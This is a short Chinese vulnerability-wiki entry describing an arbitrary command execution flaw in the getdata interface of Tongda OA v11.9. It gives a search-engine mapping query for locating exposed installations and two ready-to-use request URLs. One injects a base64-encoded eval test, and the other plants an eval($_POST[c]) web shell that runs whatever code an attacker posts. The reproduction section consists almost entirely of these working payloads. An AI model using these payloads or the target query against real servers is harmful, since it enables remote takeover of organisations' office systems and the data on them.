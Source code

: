 # 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

<a-checkbox checked>通达OA v11.9 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="通达OA网络智能办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1664008395196-d3f13158-1282-4a6a-8725-913db5edf1c0.png)

验证POC

```sql
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![img](/assets/PeiQi-Wiki/img/1664008478991-cda68968-6ac3-4d74-a583-7f1a42cbced2.png)

``` sql
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```